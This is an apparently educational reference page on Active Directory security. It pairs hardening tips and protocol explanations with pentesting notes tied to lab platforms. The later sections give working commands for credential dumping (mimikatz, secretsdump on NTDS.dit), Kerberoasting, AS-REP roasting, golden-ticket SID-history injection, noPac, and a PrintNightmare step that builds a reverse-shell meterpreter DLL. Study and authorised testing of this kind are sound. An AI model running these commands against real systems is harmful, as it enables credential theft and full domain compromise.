

# Active Directory Security

<div class="row row-cols-lg-2"><div>

**Common good practices**

* 🔒 An account inside the Domain Admins group should be used instead of the Administrator account which should be disabled.
* 🔑 Limit the use of administrative accounts
* 🗺️ Do not name your server after its function <small>(i.g. SQL_SERVER)</small>
* 🌍 Do not name a workstation after its business unit <small>(i.g. sales-xxx)</small>
* 🏠 Do not use easy to guess usernames <small>(i.g. firstname.lastname)</small>
* 🪺 Add the fewest services on your DC <small>(i.g. no ISS/WSUS...)</small>
* 🏄‍♂️ Install the least ISS modules
* 🛡️ Use a strong password policy
</div><div>

* 🫧 Rotate service/computer accounts' passwords periodically
* 👮 Implement split tiers for administrative accesses
* 🪓 Cleanup privileged groups periodically
* 📚 Use the [Protected Users Security Group](https://learn.microsoft.com/en-us/windows-server/security/credentials-protection-and-management/protected-users-security-group) when appropriate. It can lead to authentication issues and account lockout.
* ⚠️ Use gMSA instead of "normal" service accounts.
* 🚧 Disable print spooler, NTLM authentication on DC. Enable SMB signing and LDAP signing. Use encrypted traffic.
</div></div>

<hr class="sep-both">

## Authentication Protocols

<div class="row row-cols-lg-2"><div>

#### NTLM Protocol

NTLM, not to be confused with NT and LM which are hash formats, is a challenge-response authentication protocol.

* **User Request** 👋: the client inform the server about their capabilities and request for authentication
* **Server Challenge Request** 📄: the server sends a random number called nonce along some data
* **Client Challenge Response** 📝: the client encrypts the nonce using their NT Hash and they send it back to the server

```py
ntlm_response = hmac_md5(key=user_nt_hash, message=server_challenge)
```

📚 The NT hash is often called NTLM hash. [Link](/cybersecurity/cryptography/algorithms/hashing/index.md#windows-password-hash-cracking).

<br>

#### NetNTLM Protocol

NTLM can be used for both local authentication and network authentication. NetNTLM is the name we use when NTLM is used for network authentication.

<br>

#### NTLM vs Kerberos

[](https://tryhackme.com/r/room/adenumeration)

When using a domain such as `\\domain`, Kerberos Authentication is used. When using an IP such as `\\IP`, NTLM may be used instead.

<br>

#### NetLogon

NetLogon is used to establish a secure chanel between a computer and the domain controller. It is also used to support authentication messages <small>(such as AS-REQ with Kerberos)</small> for instance, determining the DC to contact and ensuring the client can reach it securely.

The secure channel (Schannel) is protected by session keys.

* 👋 The client sends a nonce and requests a session
* 🔐 The server replies with a new nonce and the client's nonce, both encrypted with the shared secret.
* ✅ The client responds with their nonce encrypted with their secret and the server nonce encrypted with the shared secret

The shared secret is typically derived from the machine account password while the client secret is typically derived from the user hash or the machine account password. `AES(client secret or resp. shared secret, nonce)` is used to generate the session key.
</div><div>


#### Kerberos

[](https://academy.hackthebox.com/course/preview/password-attacks)
[](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)
[](https://tryhackme.com/r/room/attacktivedirectory)

Kerberos is a protocol used to provide secure authentication over non-secure networks. It replaces NTLM and NetNTLM.

**Port(s)** 🐲: 88 <small>(TCP)</small>

The user send a **AS-REQ** with some data and a timestamp encrypted with their NT Hash and their username. The DC decrypts the value, check the timestamp, and reply with a **AS-REQ**. It contains a **ticket-granting ticket (TGT)** 🎫 that proves they are authenticated AND a copy of the **session key** 🔑 encrypted with the user hash.

The TGT is encrypted with the hash of the `krgtgt` account <small>(1/DC)</small>.

To access a service, we send a **TGS-REQ** with some data, the TGT, and an authenticator encrypted with the session key. The DC will read the session key from the TGT, and try to decrypt the authenticator with it. If it succeeded, the DC send a **TGS-REP** with a **Ticket Granting Service (TGS)** 🎟️ AND a new session key.

The DC uses the SPN in the TGS-REQ to find the service we want. It uses the service hash to encrypt the TGS.

We can now present the TGS to the corresponding service for them to determine if we can access it or not.

```ps
PS> klist # list current tickets available
```

As SYSTEM on a domain-joined computer, we can extract the computer account Hash or Ticket to perform a [Pth](/cybersecurity/red-team/s4.privesc/index.md#pass-the-hash-pth)/[Ptt](/cybersecurity/red-team/s4.privesc/index.md#pass-the-hash-pth) attack.

```shell!
mimikatz# sekurlsa::tickets /export # dump tickets
CMD> dir *.kirbi # @krbtgt == TGT
```

```ps
PS> .\Rubeus.exe dump /nowrap # Dump tickets
```

If we have the RC4/AES hash, we can create tickets too:

```shell!
PS> # Pass the Key / OverPass the Hash == create a ticket
PS> .\Rubeus.exe asktgt /domain:xxx /user:xxx /aes256:xxx /nowrap
PS> .\Rubeus.exe asktgt /domain:xxx /user:xxx /rc4:xxx /nowrap
PS> .\Rubeus.exe asktgt /domain:xxx /user:xxx /rc4:xxx /ptt
```

📚 The KRBTGT service account is used to encrypt/sign all Kerberos tickets granted within a given domain. Given the NT hash for the KRBTGT account, we can forge [golden/silver](/cybersecurity/red-team/s5.post-exploitation/index.md#-lateral-movement---goldensilver-ticket) tickets.
</div></div>

<hr class="sep-both">

## Active Directory Key Elements

<div class="row row-cols-lg-2"><div>

#### Active Directory database

[](https://academy.hackthebox.com/course/preview/password-attacks)

Active directory database is stored on the domain controller at `%SystemRoot%\ntds\ntds.dit`. It's used to validate credentials.

It contains user/computer/group accounts, group policies, etc.

To copy this database, we either need local administrative or domain administrative privileges. We can use [VSS](/operating-systems/windows/security/index.md#volume-shadow-copy-service-vss).

You can use commands that are only available on Windows Server:

```shell!
CMD> vssadmin CREATE SHADOW /For=C:
CMD> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopyX\Windows\NTDS\NTDS.dit %temp%\NTDS.dit
```

You can also use [cme](/cybersecurity/red-team/tools/cracking/auth/cme.md)/[nxc](/cybersecurity/red-team/tools/cracking/auth/nxc.md) which automatically dump it:

```ps
$ nxc smb IP -u 'username' -p 'password' --ntds
```

</div><div>

#### SYSVOL Network Share

[](https://tryhackme.com/r/room/adenumeration)

There is a network share on the domain controller: `dir <DCIP>\SYSVOL` associated with the folder `C:\Windows\SYSVOL\sysvol\`.

It's used to store [GPO](/operating-systems/cloud/active-directory/_knowledge/index.md#permissions) and logon/logoff scripts while for the latter, the `NETLOGON` share may be used instead.

📚 For GPOs, see also: [mscash](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-and-cracking-mscash-cached-domain-credentials) and [GPLink](https://learn.microsoft.com/en-us/powershell/module/grouppolicy/new-gplink?view=windowsserver2022-ps) (LDAP).
</div></div>

<hr class="sep-both">

## AD Pentester Notes ☠️

<div class="row row-cols-lg-2"><div>

According to our current situation, the techniques we use differ:

* 🐲 We are running Windows or Linux
* 🔐 We are connected to the internal network or not
* 🏘️ Our foothold is connected to AD or not

📚 We often find the Domain Controller IP and use it as the target of every other request, such as SMB requests, etc.

<br>

#### Pentester — External Access

[](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)
[](https://tryhackme.com/r/room/breachingad)
[](https://tryhackme.com/r/room/attacktivedirectory)

If we have an access, anonymous or not, to [SMB](/operating-systems/networking/protocols/smb.md), we may find the domain name or expose the [Password Policy](/cybersecurity/red-team/s2.discovery/techniques/passwords/policy.md).

If we have write access to a [SMB](/operating-systems/networking/protocols/smb.md) share, we can perform a [SCF Upload Attack](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/) where we receive the user hash when they open the share.

We can perform a [password spraying](/cybersecurity/red-team/s2.discovery/techniques/passwords/spraying.md) attack:

* 🚪 Exposed RDP/RDS, SMB, etc. service
* 📮 Exposed [Outlook Web App (OWA)](https://www.microsoft.com/en-us/microsoft-365/outlook/web-email-login-for-outlook) login portal
* 🏭 Exposed Microsoft 0365, Exchange, and Skype
* 🌍 VPN portals <small>(Citrix, SonicWall, OpenVPN, Fortinet using AD Auth)</small>
* 🔑 Websites and applications using [LDAP](#pentester--ldap-access) or NetNTLM.
* 🖨️ Exposed printers using [LDAP](#pentester--ldap-access)
* ...

<br>

#### Pentester — LDAP access

[](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)
[](https://tryhackme.com/r/room/breachingad)
[](https://www.root-me.org/en/Challenges/Realist/Windows-KerbeRoast)

In an [LDAP](/operating-systems/networking/protocols/ldap.md) environment such as Active Directory, we can use:

```ps
$ ldapsearch -H ldap://DCIP -x -b "" -s base namingContexts # all domains
$ ldapsearch -H ldap://DCIP -x -b "" -s base defaultNamingContext # one domain
$ ldapsearch -H ldap://DCIP -x -b "" -s base netbiosname # domain netbios name
$ ldapsearch -H ldap://DC01 -D "CN=username,CN=Users,DC=EXAMPLE,DC=COM" -w 'password' -b "DC=EXAMPLE,DC=COM" -s base netbiosname
$ ldapsearch -H ldap://DC01 -D "CN=username,CN=Users,DC=EXAMPLE,DC=COM" -w 'password' -b "DC=EXAMPLE,DC=COM" -s base "objectclass=*" dnsHostName
```

Some websites, which may be exposed to the outside, may use LDAP for authentication, so we can try [password spraying](/cybersecurity/red-team/s2.discovery/techniques/passwords/spraying.md) on them.

If we can compromise a target host connected to AD, such as a GitLab server, we may find credentials in configuration files.

We may be able to perform a [LDAP Pass-back Attack](/operating-systems/networking/protocols/ldap.md#ldap-pass-back-attack).

Look for passwords stored using [reversible encryption](#passwords-stored-using-reversible-encryption)

You can find hosts using [adidnsdump](https://github.com/dirkjanm/adidnsdump) <small>(1.0k ⭐)</small> to [dump DNS records](https://dirkjanm.io/getting-in-the-zone-dumping-active-directory-dns-with-adidnsdump/):

```ps
$ pipx install git+https://github.com/dirkjanm/adidnsdump
$ adidnsdump -u example.com\\username ldap://DCIP
$ adidnsdump [...] -r # resolve records, remove '?' marks 
```

<br>

#### Pentester — Kerberos access

[](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)
[](https://tryhackme.com/r/room/attacktivedirectory)

We can use [kerbrute](/cybersecurity/red-team/tools/utilities/windows/kerbrute.md) to enumerate users:

```ps
$ kerbrute userenum -d domain --dc IP wordlist
```

We can perform a [password spraying](/cybersecurity/red-team/s2.discovery/techniques/passwords/spraying.md) attack.

We can perform a [kerberoasting attack](#kerberoasting--privilege-escalation) <small>(credentials required 🔑)</small>

We can perform a [ASReproasting attack](#as-rep-roasting-attack--privilege-escalation) <small>(no credentials required ✅)</small>
</div><div>

#### Pentester — Internal access

[](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)
[](https://tryhackme.com/r/room/breachingad)

We should be able to exploit every other technique and:

* [Passive Internal Network Discovery](/cybersecurity/red-team/s1.investigation/techniques/passive_network_discovery.md): find hosts
* [LLMNR/NBT-NS Poisoning](/cybersecurity/red-team/s2.discovery/techniques/network/poisoning.md): attack to expose credentials
* [Password Policy](/cybersecurity/red-team/s2.discovery/techniques/passwords/policy.md): expose the password policy
* [Insecure PXE boot](#preboot-execution-environment-pxe): get credentials if exploitable
* [Dangerous privileges](/cybersecurity/red-team/s4.privesc/windows/topics/privs.md) or [ACEs](/cybersecurity/red-team/s4.privesc/windows/topics/privs.md#windows-dangerous-aces): a vector that can get us credentials, access to another account, or compromise the whole environment.
* [Windows Identification](/cybersecurity/red-team/s4.privesc/windows/utils/id.md): use built-in tools and functions of Windows or well-known scripts to find information.

Automated tools:

* You can use [BloodHound](/cybersecurity/red-team/tools/utilities/windows/bloodhound.md) to collect information and to analyze it. It can find attack vectors and attack paths.
* You can use [ADRecon](https://github.com/sense-of-security/ADRecon) <small>(1.8k ⭐, 2020 🪦)</small>/[fork](https://github.com/adrecon/ADRecon) <small>(0.8k ⭐)</small> for enumeration. See also: [pingcastle](https://github.com/vletoux/pingcastle).
* You can enumerate GPOs using [PowerSploit](https://powersploit.readthedocs.io/en/latest/Recon/Get-DomainGPO/) or [Group3r](https://github.com/Group3r/Group3r) <small>(0.8k ⭐)</small> to find dangerous ACEs. We can also use the [GPO Module](https://learn.microsoft.com/en-us/powershell/module/grouppolicy/?view=windowsserver2022-ps). See also: [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse) <small>(1.1k ⭐)</small>.

Additional configurations:

* [Accounts With PASSWD_NOTREQD](#password-not-required): easily compromised?
* [Accounts With Reversible Passwords](#password-not-required): gain access

<br>

#### Pentester — Not Joined To AD

[](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)
[](https://tryhackme.com/r/room/breachingad)
[](https://tryhackme.com/r/room/adenumeration)

If you are on a host connected to the internal network but not AD, you need to configure the DNS and pass additional options to most tools.

```shell!
$ nmcli connection # find NIC uid (note: eth0 not tun0)
$ nmcli connection modify uid ipv4.dns $DCIP
$ nmcli connection modify uid ipv4.dns-search example.com
$ nmcli connection up uid # restart
$ nslookup dc1.domain # test if it works
$ ping $DCIP ; ping dc1.domain # both should work
```

You can alternatively edit the generated `/etc/resolv.conf`:

```shell!
domain example.com
nameserver 172.16.5.5 # $DCIP
```

On Windows, with administrator privileges, you can use:

```ps
PS> $index = Get-NetAdapter -Name '<NIC_NAME>' | Select-Object -ExpandProperty 'ifIndex'
PS> Set-DnsClientServerAddress -InterfaceIndex $index -ServerAddresses "<DCIP>"
```

On Windows, use `runas /netonly` to provide AD credentials.

```ps
$ runas.exe /netonly /user:domain\username cmd.exe # provide the password, credentials are not verified
```

Now, we can run tools such as `MS SQL` or commands as usual.

📚 Refer to [pivoting](/cybersecurity/red-team/s5.post-exploitation/index.md#pivoting-to-another-host-) to access internal hosts from a pivot host.
</div></div>

<hr class="sep-both">

## AD Pentester Attack Notes ☠️

<div class="row row-cols-lg-2"><div>

#### Dump Secrets From Active Directory database

[](https://academy.hackthebox.com/course/preview/windows-privilege-escalation)
[](https://tryhackme.com/r/room/attacktivedirectory)
[](https://www.root-me.org/en/Challenges/Forensic/Windows-NTDS-Secret-extraction)

The active directory, similarly to the SAM database, is partially encrypted using a [bootkey](/operating-systems/windows/security/index.md#syskey-bootkey-and-system-hive) stored in the SYSTEM registry.

You can [dump the SYSTEM registry hive](/operating-systems/windows/security/index.md#dump-credentials-from-the-sam-database) using:

```shell!
PS> reg save hklm\system C:\XXX\system.hive
```

You can use impacket [secretsdump](/operating-systems/networking/protocols/tools/impacket.md#secretsdump) script to dump its contents.

```shell!
$ impacket-secretsdump -system ./system.hive -ntds ./ntds.dit LOCAL -outputfile cracked
$ grep "krbtgt" cracked.ntds.kerberos # kerberos tickets
```

You could also do it remotely:

```shell!
$ impacket-secretsdump -dc-ip IP -just-dc sdomain/username:password@IP
```

You could also use [DSInternals](https://github.com/MichaelGrafnetter/DSInternals/) <small>(1.7k ⭐)</small>:

```ps
PS> Import-Module .\DSInternals.psd1
PS> $key = Get-BootKey -SystemHiveFilePath '.\system.hive'
PS> Get-ADDBAccount -All -DatabasePath .\ntds.dit -BootKey $key
```

You can use [NtdsAudit](https://github.com/dionach/NtdsAudit) <small>(0.4k ⭐)</small> on Windows or [DPAT](https://github.com/clr2of8/DPAT) <small>(0.9k ⭐, 2022 🪦)</small> Python Script for statistics.

<br>

#### Preboot Execution Environment (PXE)

[](https://tryhackme.com/r/room/breachingad)

Preboot Execution Environment (PXE) can be used to allow devices to install the operating system defined by [MDT](/operating-systems/cloud/active-directory/_knowledge/index.md#microsoft-deployment-toolkit-mdt) on their machine when it connects to the network. 

* During DHCP, we receive the MDT server IP
* We need the BCD filenames, located on `/tmp/` on the MDT server
* Determine the PXE Boot Image Location from the BCD
* Use TFTP to download the boot image
* Analyze it and find secrets?

We can use [powerpxe](https://github.com/wavestone-cdt/powerpxe) <small>(0.1k ⭐)</small>.

```shell!
PS> powershell -executionpolicy bypass
PS> Import-Module .\PowerPXE.ps1
PS> # Example: manually execute some steps
PS> Get-WimFile -bcdFile "conf.bcd"
PS> tftp -i MDTIP GET "PXE Boot Image Location" pxeboot.wim
PS> Get-FindCredentials -WimFile pxeboot.wim
```

This is usually after the DHCP lease using TFTP.

<br>

#### Group Policy Preferences (GPP)

[](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)
[](https://www.root-me.org/en/Challenges/Forensic/Active-Directory-GPO)
[](https://www.root-me.org/fr/Challenges/Realiste/Windows-Group-Policy-Preferences-Passwords)

Group Policy Preferences (GPP) are stored within GPOs. They can be used to make settings persist even if GPOs are removed.

Passwords may be stored in GPP, but the encryption algorithm is reversible, so it's a known insecure practice.

The `cpassword` attribute contains the encrypted password.

You can use impacket or [gpp-decrypt](https://github.com/t0thkr1s/gpp-decrypt) <small>(0.1k ⭐)</small>:

```shell!
$ impacket-Get-GPPPassword -xmlfile Groups.xml LOCAL
```

➡️ Look at: `\<domain>\SYSVOL\<domain>\Policies\<GPO GUID>\Machine\Preferences\Groups\Groups.xml`.

➡️ You can try to find them using [Get-GPPPassword.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1), metasploit, or nxc with the `gpp_autologin` module.
</div><div>

#### Password Not Required

[](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)

Some users may have the `PASSWD_NOTREQD` attribute set. It means they can have a password that is not compliant to the password policy and even a blank password if it is allowed.

```ps
PS> Get-DomainUser -UACFilter PASSWD_NOTREQD | Select-Object samaccountname,useraccountcontrol # PowerView
```

<br>

#### Passwords Stored Using Reversible Encryption

[](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)

It's possible for some user accounts to have their passwords stored using reversible encryption for some specific use cases. The registry SYSKEY value is required to decrypt them.

```ps
PS> Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl # AD Module
PS> Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol # PowerView
```

📚 Using LDAP, search for users with `userAccountControl>=128`.

<br>

#### AS-REP Roasting Attack — Privilege Escalation

[](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)
[](https://tryhackme.com/r/room/attacktivedirectory)
[](https://www.root-me.org/en/Challenges/Forensic/Windows-LDAP-User-ASRepRoastable)
[](https://www.root-me.org/en/Challenges/Realist/Windows-ASRepRoast)

*Alternative name: ASReproasting*

The initial **AS-REQ** requires the user to send pre-authentication data, e.g., a timestamp hashed with their password hash.

Some user may be configured to not require pre-auth, meaning we can get a TGT and a session key without knowing their password.

By cracking the session key, we can find their password.

```shell!
$ impacket-GetNPUsers -dc-ip DC01 domain/username:password # list users + groups
$ # You get more info with valid credentials!
$ impacket-GetNPUsers -dc-ip IP -usersfile valid_users.txt domain/junkusername -no-pass
PS> Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl
PS> .\Rubeus.exe asreproast /user:cn /nowrap /format:hashcat
```

Refer to [cracking Kerberos Pre Auth Hash](/cybersecurity/cryptography/algorithms/hashing/index.md#kerberos-pre-auth-cracking).

📚 Using LDAP, search for users with `userAccountControl>=4194304`.

#### Kerberoasting — Privilege Escalation

[](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)
[](https://www.root-me.org/en/Challenges/Forensic/Windows-LDAP-User-KerbeRoastable)
[](https://www.root-me.org/en/Challenges/Realist/Windows-KerbeRoast)

We can request a TGS for any user that has **Service Principal Names (SPN)**. Usually, only service account have them.

Similarly to ASReproasting, we can attempt to crack the session key to find the service account password.

RC4 hashes are easy to crack while AES hashes are harder.

We can use [mimikatz](/cybersecurity/red-team/tools/utilities/creds/mimikatz.md), [Rubeus](/cybersecurity/red-team/tools/utilities/creds/rubeus.md) or [PowerView](/cybersecurity/red-team/tools/utilities/windows/powersploit.md) to fetch TGS tickets.

```shell!
$ impacket-GetUserSPNs -dc-ip IP domain/user:password # list all
$ impacket-GetUserSPNs -dc-ip IP domain/user:password -request # get TGS for all
$ impacket-GetUserSPNs -dc-ip IP domain/user:password -request-user cn -outputfile cn_tgs # get TGS for 'cn'
$ impacket-GetUserSPNs [...] -target-domain dev.example.com
```

```shell!
PS> setspn.exe -Q */* # list all (ignore computer accounts)
PS> setspn.exe -T domain -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() } # get TGS for all
```

```shell!
mimikatz# kerberos::ask /target:cn # request TGS for cn
mimikatz# base64 /out:true
mimikatz# kerberos::list /export # cat b64 | tr -d '\n' | base64 -d > cn.kirbi
```

```shell!
PS> Get-DomainUser -SPN -Properties samaccountname,ServicePrincipalName
PS> Get-DomainUser cn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes # encryption scheme
PS> Get-DomainUser -Identity cn | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\xxx.csv -NoTypeInformation
```

```shell!
PS> .\Rubeus.exe kerberoast /stats # number of SPNs, encryption types
PS> .\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
PS> .\Rubeus.exe kerberoast /user:cn /nowrap # cn encryption settings
PS> .\Rubeus.exe kerberoast /tgtdeleg /ldapfilter:'admincount=1' /nowrap # try a downgrade attack
```

Some tools can try to perform a downgrade attack from AES to RC4. It won't work as of Windows Server 2019.

Refer to [cracking Kerberos Tickets](/cybersecurity/cryptography/algorithms/hashing/index.md#kerberos-tickets-cracking).

📚 Using LDAP, search for users with `servicePrincipalName` set.

📚 Refer to "Managed Service Accounts" for remediation (LAPS).

📚 More tools: [kerberoast](https://github.com/nidem/kerberoast) <small>(1.4k ⭐)</small>, [RiskySPN](https://github.com/cyberark/RiskySPN) <small>(0.3k ⭐)</small>
</div></div>

<hr class="sep-both">

## AD Pentester Foreign Objects Notes ☠️

<div class="row row-cols-lg-2"><div>

#### Identify Trust Relationships

[](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)

The current domain associated with our machine may allow to access objects from another domain or another forest based on [trust](/operating-systems/cloud/active-directory/_knowledge/index.md#forest-and-trusts).

```ps
PS> Get-ADTrust -Filter * # AD Module
```

```ps
PS> # PowerView
PS> Get-DomainTrust
PS> Get-DomainTrustMapping
PS> Get-DomainUser -Domain dev.example.com | select SamAccountName
```

```ps
PS> netdom query /domain:example.com trust
PS> netdom query /domain:example.com dc
PS> netdom query /domain:example.com workstation
```

#### Identify Foreign Objects

You can use PowerView:

```ps
PS> Get-DomainForeignGroupMember -Domain dev.example.com
```
</div><div>

#### SID-History Injection

[](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)

This attack is called ExtraSids Attack on HTB. Microsoft implemented SID filtering preventing these attacks, which is disabled within a forest. 

If a domain is compromised, we can add to `sidHistory` the SID of a group such as `Enterprise Admins`' SID and compromise the forest. 

```shell!
mimikatz# kerberos::golden /user:dummy /domain:dev.example.com /sid:<child domain SID> /krbtgt:<hash> /sids:<target domain SID> /ptt
PS> .\Rubeus.exe golden /rc4:<krbtgt hash> /domain:dev.example.com /sid:<child domain SID>  /sids:<target domain SID> /user:dummy /ptt
$ impacket-ticketer -nthash <krbtgt hash> -domain dev.example.com -domain-sid <child domain SID> -extra-sid <target domain SID> dummy
```

You can use PowerView or Active Directory Module on Windows:

```shell!
PS> Get-DomainSID # Powerview
PS> Get-DomainGroup -Domain example.com -Identity "Enterprise Admins" | select distinguishedname,objectsid # Powerview
PS> Get-ADGroup -Identity "Enterprise Admins" -Server "example.com" # AD Module 
```

On Linux, you can use impacket:

```shell!
$ # concatenate DOMAIN_SID and GROUP_RID to get GROUP_SID
$ impacket-lookupsid dev.example.com/username:'password'@IP
$ # Get the SID for a specific group
$ rpcclient -U "username" --password 'password' IP
rpcclient> lookupnames "example\Enterprise Admins"
```

📚 If a user is migrated to another forest and SID filtering is disabled, then they retain their rights on their original domain.

⚠️ The injected SID must not exist within the compromised domain.

⚠️ The `impacket-raiseChild` is automating this, but do it manually <small>(impacket-raiseChild -target-exec DCIP dev.example.com/admin:admin)</small>.
</div></div>

<hr class="sep-both">

## Active Directory On Linux

<div class="row row-cols-lg-2"><div>

#### Active Directory On Linux — Enumeration

[](https://academy.hackthebox.com/course/preview/password-attacks)
[](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)

While uncommon, it's possible for Linux clients to be connected to Active Directory. It's most likely the case if we kind a process such as `realm`, `sssd`, or `winbind` running. With `realm`, you can use:

```shell!
$ realm list
  ...
  permitted-logins: username@xxx.yyy
  permitted-groups: XXX

$ net ads info | grep "REALM"
$ net ads lookup
$ net rpc info
```

➡️ See also: [linikatz](https://github.com/CiscoCXSecurity/linikatz) <small>(0.5k ⭐, 2023 🪦)</small>. 

<br>

#### Active Directory On Linux — Kerberos Configuration

If Kerberos client is installed, you will be able to use `klist`. The configuration of kerberos is stored in `/etc/krb5.conf`:

```text!
[libdefaults]
        default_realm = EXAMPLE.COM
        dns_lookup_realm = false
        dns_lookup_kdc = false
        ticket_lifetime = 24h
        renew_lifetime = 7d
        forwardable = true
        # kdc_timesync = 1
        # ccache_type = 4

[realms]
    EXAMPLE.COM = {
        kdc = DC01.EXAMPLE.COM
        admin_server = DC01.EXAMPLE.COM
    }

[domain_realm]
    .EXAMPLE.COM = EXAMPLE.COM
    EXAMPLE.COM = EXAMPLE.COM
```

And the files `/etc/hosts` and `/etc/resolv.conf` must be set so that we can at the very least resolve `DC01.EXAMPLE.COM`.

```shell!
$ cat /etc/hosts
172.16.5.5 EXAMPLE.COM
172.16.5.5 DC01 DC01.EXAMPLE.COM
```

#### Active Directory On Linux — Get A Ticket

You can request a ticket for `dummy` using:

```shell!
$ kinit dummy@EXAMPLE.COM
```
</div><div>

#### Active Directory On Linux — Managing Tickets

[](https://academy.hackthebox.com/course/preview/password-attacks)
[](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)

[Kerberos tickets](#kerberos) are stored in `/tmp` as ccache files. The current ticket is set by setting the `KRB5CCNAME` environment variable.

```shell!
$ export KRB5CCNAME=/tmp/krb5cc_xxx_yyy
$ export KRB5CCNAME=FILE:/var/lib/sss/db/ccache_XXX.YYY
$ klist # information about the current ticket
Default principal: username@EXAMPLE.COM
```

☠️ We can use someone else's ticket as long as we got `rw` on it.

#### Active Directory On Linux — Keytabs

[](https://academy.hackthebox.com/course/preview/password-attacks)

Users and scripts can use a [keytab](https://kb.iu.edu/d/aumh) file to store Kerberos principals and encryption keys that can be used to create tickets without having to store the plaintext password. To use it, we need `rw` permissions on it.

```shell!
$ find / -name "*keytab*" -readable -writable -ls 2>/dev/null
$ kinit xxx@yyy.zzz -k -t /path/to/xxx.keytab
$ klist # new ticket associated with xxx@yyy.zzz
```

☠️ If you find a readable keytab file, you can create tickets. You can also use [KeyTabExtract](https://github.com/sosdave/KeyTabExtract) <small>(0.2k ⭐)</small> to dump the hash and crack it.

#### Active Directory On Linux — Importing/Exporting Tickets

[](https://academy.hackthebox.com/course/preview/password-attacks)
[](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)

We can use impacket to convert tickets:

```shell!
$ impacket-ticketConverter xxx yyy.kirbi # from ccache to kirbi
$ impacket-ticketConverter xxx.kirbi xxx.ccache # from kirbi to ccache
```

#### Active Directory On Linux — Using Tickets

[](https://academy.hackthebox.com/course/preview/password-attacks)
[](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)

You can use the ccache with many of impacket tools with `-k`:

```shell!
$ impacket-GetUserSPNs EXAMPLE.COM/username -k -no-pass
$ impacket-GetUserSPNs EXAMPLE.COM/username@EXAMPLE.COM -k -no-pass
```
```shell!
$ # example.com, dev.example.com, and DC01.example.com must be in /etc/hosts
$ impacket-psexec DC01.example.com -k -no-pass
$ impacket-psexec dev.example.com/hacker@DC01.example.com -k -no-pass -target-ip 172.16.5.5
$ impacket-secretsdump dev.example.com/hacker@DC01.example.com -no-pass -k -just-dc-user EXAMPLE/username
$ impacket-secretsdump DC01.example.com -no-pass -k -just-dc-user EXAMPLE.COM/administrator
```
</div></div>

<hr class="sep-both">

## AD Pentester CVE Notes ☠️

<div class="row row-cols-lg-2"><div>

#### noPac Exploit (SamAccountName Spoofing)

[](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)
[](https://www.root-me.org/fr/Challenges/Realiste/Windows-sAMAccountName-spoofing)

The noPac exploit is based on [CVE-2021-42278](https://nvd.nist.gov/vuln/detail/CVE-2021-42278) and [CVE-2021-42287](https://nvd.nist.gov/vuln/detail/CVE-2021-42287). The first one is used to bypass UAC while the second targets [PAC](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-pac/c38cc307-f3e6-4ed4-8c81-dc550d96223c).

We need to change the `SamAccountName` a computer account to match the one of a domain controller `SamAccountName`. Any authenticated user can register up to `ms-DS-MachineAccountQuota` hosts, `10` by default.

```shell!
$ DEST="$HOME/tools/noPac"
$ git clone -b "main" https://github.com/Ridter/noPac.git $DEST
$ python3 $DEST/scanner.py EXAMPLE.COM/username:password -dc-ip dc01 -use-ldap # Test, get a TGT
$ python3 $DEST/noPac.py EXAMPLE.COM/username:password -dc-ip dc01 -dc-host DC01 -shell --impersonate administrator -use-ldap # impersonate DC01
$ python3 $DEST/noPac.py EXAMPLE.COM/username:password -dc-ip dc01 -dc-host DC01.EXAMPLE.COM --impersonate administrator -use-ldap -dump -just-dc-user EXAMPLE.COM/administrator # DCSync, Dump Hashes/Tickets
```

Another proof of concept: [sam-the-admin](https://github.com/safebuffer/sam-the-admin) <small>(1.0k ⭐)</small>.

<br>

#### PrintNightmare

[](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)

The PrintNightmare vulnerability is based on [CVE-2021-1675](https://nvd.nist.gov/vuln/detail/CVE-2021-1675) and [CVE-2021-34527](https://nvd.nist.gov/vuln/detail/CVE-2021-34527). Both are targeting the Print Spooler service.

```shell!
$ impacket-rpcdump @DCIP | egrep 'MS-RPRN|MS-PAR' # POC? 
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol
```

```shell!
$ # start a handler on port 4444 to catch:
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -f dll -o shell.dll
$ impacket-smbserver -smb2support share .
```

```shell!
$ DEST="$HOME/tools/PrintNightmare"
$ git clone -b "main" https://github.com/cube0x0/CVE-2021-1675.git $DEST
$ python3 $DEST/CVE-2021-1675.py domain/username:password@IP '\\HOST_IP\share\shell.dll'
```

<br>

